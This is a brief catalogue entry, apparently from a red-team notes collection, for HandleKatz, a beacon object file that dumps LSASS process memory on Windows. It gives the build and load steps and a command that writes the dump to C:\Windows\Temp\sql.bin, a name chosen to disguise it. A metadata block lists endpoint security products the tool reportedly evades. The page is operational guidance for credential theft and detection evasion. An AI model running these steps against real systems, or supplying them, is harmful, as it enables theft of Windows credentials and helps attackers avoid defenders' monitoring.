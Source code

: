 # Handlekatz

## [[LSASS dumping]]
*Make all* to build handlekatz.x64.o and handlekatz_bof.cna`
Put them into the same folder and load the .cna script.
`handlekatz <lsass-pid> C:\Windows\Temp\sql.bin`

```meta
requirements: 
results: 
opsec: 
oss: #win
source: https://github.com/EspressoCake/HandleKatz_BOF
description: This tool was implemented as part of our Brucon2021 conference talk and demonstrates the usage of cloned handles to Lsass in order to create an obfuscated memory dump of the same.
undetected:  MDE, BitDefender, Cylance, McAfee, Tanium
```